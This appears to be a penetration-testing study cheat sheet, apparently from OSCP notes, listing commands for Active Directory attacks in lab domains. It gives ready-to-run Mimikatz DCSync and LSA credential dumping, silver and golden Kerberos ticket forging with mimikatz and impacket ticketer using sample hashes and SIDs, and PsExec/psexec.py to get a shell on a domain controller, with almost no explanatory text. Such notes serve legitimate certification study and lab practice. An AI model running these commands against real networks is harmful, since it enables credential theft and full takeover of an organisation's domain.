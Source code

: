 ```bash
```

### Invoke-Mimikatz
```bash
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:Egotistical-bank.local /user:Administrator"'
```

### Silver Tickets(https://systemweakness.com/vulnlab-breach-7db2bb800e88)
![image](https://github.com/nuricheun/OSCP/assets/14031269/d19bd307-1d00-478a-925c-370b483dce13)
![image](https://github.com/nuricheun/OSCP/assets/14031269/472ec5a4-4224-4b09-b2c4-6662e97865d9)
```bash
# Get domain SID
whoami /user
#IIS service ntlm from mimikatz or somewhere
#mimikatz silver ticket attack
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
iwr -UseDefaultCredentials http://web04

# on kali machine
ticketer.py -spn SPN -domain-sid DOMAIN SID -nthash NTLM -dc-ip IP_VICTIM -domain domain Administrator
```

### Golden Tickets
```bash
# on windows
privilege::debug
lsadump::lsa
kerberos::purge
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
misc::cmd
PsExec64.exe \\DC1 cmd.exe

# on kali
impacket-ticketer -nthash 1693c6cefafffc7af11ef34d1c788f47 -domain-sid S-1-5-21-1987370270-658905905-1781884369 -domain corp.com Administrator
export KRB5CCNAME=./Administrator.ccache     
mousepad /etc/resolv.conf
    add > nameserver 192.168.x.x
(or add dc1.corp.com inside of /etc/hosts file otherwise this attack will fail)
psexec.py Administrator@dc1.corp.com -k -no-pass
```

### chisel
![image](https://github.com/nuricheun/OSCP/assets/14031269/38af9dc8-b526-486d-871a-a75ed0fe8f87)
